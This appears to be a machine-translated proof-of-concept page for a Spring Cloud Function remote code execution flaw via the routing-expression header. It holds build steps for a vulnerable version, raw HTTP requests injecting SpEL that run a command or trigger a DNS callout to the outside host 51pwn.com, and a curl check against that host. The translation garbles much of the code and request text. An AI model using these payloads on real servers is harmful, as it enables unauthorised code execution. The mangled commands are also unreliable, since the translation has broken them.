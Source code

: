 # Spring-Spel-0 day-Poc:Spring-Cloud/Spring-Cloud-function，Spring . Cloud . function . routing-expression

> 原文：<https://kalilinuxtutorials.com/spring-spel-0day-poc/>

[![](img/014745a0c6ae0eedd054dc9979eb657a.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgGYYdHpGkN-UVxQpNaF7CWOE1m0-nwh-WrAiUy7aiSl_HRh9hV-sJ3r5AzvOZIFqXGqFBPAel4k15LcZ2l2uq5pOMMRuH3KUuJP6gXrQgoRaBXk9dLV3b1wR6dLN9BcUR3J_9cjqDNWyH2e2a0aKxioC1A2jmT98iUFecQ32Fa5WmBDzt6GYskFKnE/s728/Spring%20Cloud%20Fusion%20Vulnerability.png)

**Spring-Spel-0Day-Poc** 是 Spring-cloud/Spring-cloud-function RCE EXP Poc https://github.com/spring-cloud/spring-cloud-function 头

**spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(" open-a calculator . app ")**

## 建设

**wget https://github . com/spring-cloud/spring-cloud-function/archive/refs/tags/v 3 . 1 . 6 . zip
unzip v 3 . 1 . 6 . zip
CD spring-cloud-function-3 . 1 . 6
CD spring-cloud-function-samples/function-sample-POJO
mvn 包
java -jar。/target/function-sample-POJO-2 . 0 . 0 . release . jar**

## 获取测试的路径列表

**找到。-名称" *。Java“| xargs-I % cat % | grep-EO '"([^”。\/= > |，:}+)'"'"']{8，})"'|sort -u|sed 's/"//g'**

**…
功能路由器
大写
小写
…**

![](img/20b9d3e6ccbd8f4c9fbd7e61f384b409.png)

## poco1

**POST/function router HTTP/1.1
主机:127.0.0.1:8080
用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10 _ 15 _ 7)apple WebKit/605 . 1 . 15(KHTML，像壁虎一样)版本/15.2 Safari/605.1.15
连接:关闭
spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(" open-a/System/Applications/calculator . app ")
Content-Length:5**

![](img/e45b7240d85d42d1db93a24801d14ce3.png)

## 二氧化碳分压

**POST/function router HTTP/1.1
主机:127.0.0.1:8080
用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10 _ 15 _ 7)apple WebKit/605 . 1 . 15(KHTML，像壁虎一样)版本/15.2 Safari/605.1.15
连接:关闭
spring . cloud . function . routing-expression:T(Java . net . inet address)。get by name(" random 87535 . rce . 51 pwn . com ")
Content-Length:5
51 pwn**

## 支票

**curl -v -H "用户代理:Mozilla/5.0(Windows NT 6.1；rv:45.0)壁虎/20100101 火狐/45.0“'https://51pwn.com/dnslog？q = random 87535 . rce . 51 pwn . com '**

[**Download**](https://github.com/hktalent/spring-spel-0day-poc)